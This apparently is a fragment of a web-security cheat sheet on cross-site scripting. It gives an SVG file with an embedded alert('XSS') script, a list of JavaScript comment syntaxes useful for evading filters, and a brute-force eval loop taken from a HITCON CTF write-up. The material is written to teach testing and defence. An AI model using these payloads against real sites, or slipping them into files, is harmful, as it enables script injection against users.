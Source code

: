 ```python
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

## Other JavaScript tricks

### JavaScript Comments

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line


  for (let j = 0; j < 128; j++) {
    for (let k = 0; k < 128; k++) {
      for (let l = 0; l < 128; l++) {
        if (j == 34 || k ==34 || l ==34)
          continue;
        if (j == 0x0a || k ==0x0a || l ==0x0a)
          continue;
        if (j == 0x0d || k ==0x0d || l ==0x0d)
          continue;
        if (j == 0x3c || k ==0x3c || l ==0x3c)
          continue;
        if (
           (j == 47 && k == 47)
           ||(k == 47 && l == 47)
          )
          continue;
    try {
        var cmd = String.fromCharCode(j) + String.fromCharCode(k) + String.fromCharCode(l) + 'a.orange.ctf"';
        eval(cmd);
    } catch(e) {
        var err = e.toString().split('\n')[0].split(':')[0];
        if (err === 'SyntaxError' || err === "ReferenceError")
          continue
        err = e.toString().split('\n')[0]
    }
       console.log(err,cmd);
    }
    }
  }
  //From: https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z
```
